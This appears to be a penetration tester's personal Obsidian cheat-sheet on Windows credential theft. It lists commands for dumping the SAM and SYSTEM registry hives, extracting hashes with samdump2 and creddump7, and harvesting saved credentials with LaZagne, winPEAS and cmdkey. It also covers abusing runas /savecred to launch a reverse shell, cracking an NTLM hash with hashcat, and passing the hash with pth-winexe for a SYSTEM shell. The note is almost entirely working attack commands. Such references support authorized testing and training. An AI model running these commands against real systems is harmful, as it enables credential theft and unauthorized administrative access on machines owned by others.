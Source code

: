 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Reg save

```command prompt - target
reg save HKLM\SAM c:\SAM
```

```command prompt - target
reg save HKLM\System c:\System
```

[[4._File Transfers]]

```bash - kali
samdump2 -o hashes System SAM
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#NTLM]]


#### Lazagne

```
lazagne.exe all
```

#### Saved creds
1. Use winPEAS to check for saved credentials:

```command prompt - windows
.\winPEASx64.exe quiet cmd windowscreds
```

2. It appears that saved credentials for the admin user exist.

3. We can verify this manually using the following command:

```command prompt - windows
cmdkey /list
```

4. If the saved credentials aren’t present, run the following script to refresh the credential:

```command prompt - windows
C:\PrivEsc\savecred.bat
```

5. We can use the saved credential to run any command as the admin user. Start a listener on Kali and run the reverse shell executable:

![[rlwrap]]

[[1._Reverse Shells (WIN)#MSFVenom]]

```command prompt - windows
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

#### SAM
1. Backups of the SAM and SYSTEM files can be found in ===C:\Windows\Repair== and are readable by our user.

2. Copy the files back to Kali:

[[4._File Transfers]]

3. Download the latest version of the creddump suite:

```bash - kali
git clone https://github.com/Neohapsis/creddump7.git
```

4. Run the pwdump tool against the SAM and SYSTEM files to extract the hashes:

```bash - kali
python2 creddump7/pwdump.py SYSTEM SAM
```

5. Crack the admin user hash using hashcat:

```bash - kali
hashcat -m 1000 --force a9fdfa038c4b75ebc76dc855dd74f0da /usr/share/wordlists/rockyou.txt
```


#### Pass the Hash
1. Extract the admin hash from the SAM in the previous step.

2. Use the hash with pth-winexe to spawn a command prompt (empty LM hash):

```bash - kali
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:$HASH' //$TARGET cmd.exe
```

3. Use the hash with pth-winexe to spawn a SYSTEM level command prompt:

```bash - kali
pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:$HASH' //$TARGET cmd.exe
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
